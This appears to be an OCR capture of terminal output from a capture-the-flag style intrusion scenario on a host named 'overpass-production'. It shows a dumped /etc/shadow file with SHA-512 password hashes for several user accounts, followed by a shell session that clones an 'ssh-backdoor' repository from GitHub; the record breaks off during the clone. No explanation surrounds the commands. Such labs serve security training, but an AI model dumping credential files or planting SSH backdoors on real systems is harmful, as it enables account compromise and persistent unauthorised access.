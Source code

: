```sh
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

james@overpass-production:~$ 

git clone https://github.com/NinjaJc01/ssh-backdoor

Cloning into 'ssh-backdoor'...

remote: Enumerating objects: 18, done.        
remote: Counting objects:   5% (1/18)        

remote: Counting objects:  11% (2/18)        
remote: Counting objects:  16% (3/18)        
remote: Counting objects:  22% (4/18)        
remote: Counting objects:  27% (5/18)        
remote: Counting objects:  33% (6/18)        
remote: Counting objects:  38% (7/18)        
remote: Counting objects:  44% (8/18)        
remote: Counting objects:  50% (9/18)        
remote: Counting objects:  55% (10/18)        
remote: Counting objects:  61% (11/18)        
remote: Counting objects:  66% (12/18)        
remote: Counting objects:  72% (13/18)        
remote: Counting objects:  77% (14/18)        
remote: Counting objects:  83% (15/18)        
remote: Counting objects:  88% (16/18)        
remote: Counting objects:  94% (17/18)        
remote: Counting objects: 100% (18/18)        
remote: Counting objects: 100% (18/18), done.        
